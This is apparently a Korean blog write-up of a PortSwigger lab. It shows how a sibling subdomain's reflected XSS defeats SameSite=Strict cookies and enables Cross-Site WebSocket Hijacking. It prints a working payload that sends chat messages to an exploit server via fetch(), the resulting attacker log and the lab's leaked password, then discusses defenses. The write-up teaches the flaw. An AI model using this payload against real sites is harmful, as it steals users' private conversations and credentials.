




+++
date = '2026-06-25T09:00:00+09:00'
draft = false
title = '[Write-up] PortSwigger - SameSite Strict bypass via sibling domain'
summary = "Strict 쿠키로 막힌 CSWSH를 CORS 헤더로 발견한 sibling 도메인의 XSS를 발판 삼아 same-site 컨텍스트에서 성립시키고 챗 기록의 자격 증명을 유출하는 풀이"
toc = true
tags = ["CSRF", "SameSite", "CSWSH", "WebSocket", "XSS", "Credential Theft", "PortSwigger", "Practitioner"]
url = '/write-up/portswigger/csrf/write-up-portswigger---samesite-strict-bypass-via-sibling-domain/'
+++

---

## 문제 분석

> **난이도**: `PRACTITIONER`  
> **Lab**: [SameSite Strict bypass via sibling domain](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-sibling-domain)

> 

실시간 대화 기능에 Cross-Site WebSocket Hijacking(CSWSH) 취약점이 존재한다. CSWSH 공격으로 피해자의 대화 기록을 유출하면 그 안에 자격 증명이 평문으로 남아 있으며, 해당 계정으로 로그인하면 문제가 해결된다.

### CSRF 진단

라이브 챗 기능에 접근하면 다음과 같은 WebSocket 핸드셰이크가 발생한다.

```http
GET /chat HTTP/2
Host: <lab-id>.web-security-academy.net
Connection: Upgrade
Upgrade: websocket
Origin: https://<lab-id>.web-security-academy.net
Sec-Websocket-Version: 13
Cookie: session=<session>
Sec-Websocket-Key: +hSmwQLOhEVMBfRmNoocDw==
```

인증에 사용되는 값은 `session` 쿠키뿐이고 CSRF 토큰은 없다. 핸드셰이크 자체는 CSRF에 취약한 셈이지만, 이 세션 쿠키는 `SameSite=Strict`로 설정되어 있다. 공격자 도메인에서 `new WebSocket()`으로 연결을 열어도 쿠키가 첨부되지 않으므로 피해자 세션으로 수립되지 않는다.

`Strict`를 우회하려면 요청이 같은 사이트에서 출발해야 한다. SameSite에서 말하는 "사이트"는 출처(origin)가 아니라 eTLD+1 단위이므로, **같은 상위 도메인을 공유하는 다른 서브도메인에서 실행되는 코드도 same-site로 취급된다.** 따라서 서브도메인 하나만 장악하면 조건이 충족된다.

서브도메인을 찾기 위해 리소스 요청의 응답 헤더를 살펴보면 `/resources/css/labsEcommerce.css` 응답에 다음 헤더가 있다.

```http
access-control-allow-origin: https://cms-<lab-id>.web-security-academy.net
```

CORS 허용 목록에 명시된 `cms-` 도메인의 존재가 드러난다. 접근하면 로그인 화면이 나온다.



이 로그인 기능은 아이디가 틀릴 경우 입력한 `username` 값을 응답 HTML에 그대로 반사하며, 태그를 넣으면 태그로 해석된다.



또한 로그인 요청은 기본적으로 `POST`지만 메서드를 `GET`으로 바꿔도 서버가 동일하게 처리한다. 즉 URL 하나로 이 도메인에서 임의의 스크립트를 실행시킬 수 있다.

정리하면 공격 경로는 다음과 같다. sibling 도메인의 Reflected XSS로 same-site 컨텍스트를 확보하고, 그 컨텍스트에서 WebSocket 연결을 열어 `Strict` 쿠키가 첨부되게 만든다.

---

## 익스플로잇

먼저 same-site 컨텍스트에서 실행될 CSWSH 스크립트를 구성한다. 챗 기능은 연결 직후 `READY`를 받으면 이전 대화 내역을 다시 전송한다.

```html
<script>
let newWebSocket = new WebSocket('wss://<lab-id>.web-security-academy.net/chat');
newWebSocket.onopen = function (evt) {
    newWebSocket.send("READY");
}
newWebSocket.onmessage = function (evt) {
    fetch("https://<exploit-id>.exploit-server.net/" + evt.data);
}
</script>
```

이 스크립트를 CMS 도메인의 `username` 파라미터에 실어 최상위 탐색으로 접근시키는 페이로드를 만든다.

```html
<script>
const payload = `<script>
let newWebSocket = new WebSocket('wss://<lab-id>.web-security-academy.net/chat');
newWebSocket.onopen = function (evt) {
    newWebSocket.send("READY");
}
newWebSocket.onmessage = function (evt) {
    fetch("https://<exploit-id>.exploit-server.net/" + evt.data);
}<\/script>`;
const cms = 'https://cms-<lab-id>.web-security-academy.net/login?password=xss&username='
location.href = cms + encodeURIComponent(payload);
</script>
```

템플릿 리터럴 안의 종료 태그를 `<\/script>`로 쓴 이유는, 그대로 두면 HTML 파서가 바깥 스크립트 블록의 끝으로 인식해 페이로드가 잘리기 때문이다.

피해자가 이 페이지를 열면 CMS 도메인으로 이동해 반사된 스크립트가 실행되고, 그 스크립트가 연 WebSocket 핸드셰이크는 same-site 요청이므로 `Strict` 세션 쿠키가 첨부된다. 수신한 메시지는 요청 경로에 실려 공격자 서버 로그에 남는다.

```text
10.0.4.10  2026-07-31 01:47:07 +0000 "GET /%7B%22user%22:%22Hal%20Pline%22,%22content%22:%22No%20problem%20carlos,%20it&apos;s%20y1aj9ly59l8b6gidv2q3%22%7D HTTP/1.1" 404 "user-agent: Mozilla/5.0 (Victim) ..."
10.0.4.10  2026-07-31 01:47:07 +0000 "GET /%7B%22user%22:%22You%22,%22content%22:%22I%20forgot%20my%20password%22%7D HTTP/1.1" 404 "user-agent: Mozilla/5.0 (Victim) ..."
```

URL 디코딩한 대화 내역은 다음과 같다.

```json
{"user":"Hal Pline","content":"No problem carlos, it's y1aj9ly59l8b6gidv2q3"}
{"user":"Hal Pline","content":"Hello, how can I help?"}
{"user":"You","content":"Thanks, I hope this doesn't come back to bite me!"}
{"user":"CONNECTED","content":"-- Now chatting with Hal Pline --"}
{"user":"You","content":"I forgot my password"}
```

상담원이 평문으로 알려준 `carlos:y1aj9ly59l8b6gidv2q3` 자격 증명으로 로그인하면 문제가 해결된다.



---

## 정리

이 랩의 핵심은 SameSite의 보호 단위가 **출처가 아니라 사이트**라는 점이다. 동일 출처 정책은 스킴·도메인·포트가 모두 같아야 같은 출처로 보지만, SameSite는 eTLD+1만 같으면 같은 사이트다. 따라서 `Strict`를 적용해도 서브도메인 전체가 같은 신뢰 경계 안에 들어오고, 그중 하나에 XSS가 있으면 방어는 사이트 전체에서 무너진다.

서브도메인 자산의 보안 수준이 대체로 본 서비스보다 낮다는 점이 이 문제를 키운다. 이 랩의 CMS도 본 서비스와 별개로 운영되는 부속 시스템이며, 그 로그인 폼의 반사형 XSS 하나가 결국 본 서비스의 세션 보호를 무력화했다. 진단에서 `Strict` 쿠키를 확인했더라도 서브도메인 열거를 함께 수행해야 하는 이유이고, 여기서는 CORS 응답 헤더가 그 단서를 그대로 노출했다.

또 하나 주목할 점은 CSWSH가 [일반적인 CSRF](/write-up/portswigger/csrf/write-up-portswigger---csrf-vulnerability-with-no-defenses/)와 달리 응답까지 읽어낸다는 것이다. WebSocket은 동일 출처 정책의 적용을 받지 않고 `Origin` 헤더만 전달하며, 연결이 수립되면 양방향 채널이 유지된다. 그래서 단방향 CSRF로는 불가능한 데이터 유출이 가능해진다. 이 부분은 [WebSocket 토픽 정리](/note/note-portswigger---websocket-%ED%86%A0%ED%94%BD-%EC%A0%95%EB%A6%AC-%EB%B0%8F-%EC%8B%A4%EC%8A%B5/)와 [CSWSH Write-up](/write-up/portswigger/websocket/write-up-portswigger---cross-site-websocket-hijacking/)에서 더 다뤘다.

방어는 세 층위로 나뉜다. 핸드셰이크에 예측 불가능한 토큰을 포함시키고 서버에서 `Origin`을 허용 목록과 대조해 same-site 요청이라도 무조건 신뢰하지 않는 것, 서브도메인의 XSS를 본 서비스와 같은 기준으로 제거하는 것, 그리고 신뢰 수준이 다른 기능은 아예 별도 사이트로 분리해 쿠키 경계를 나누는 것이다.
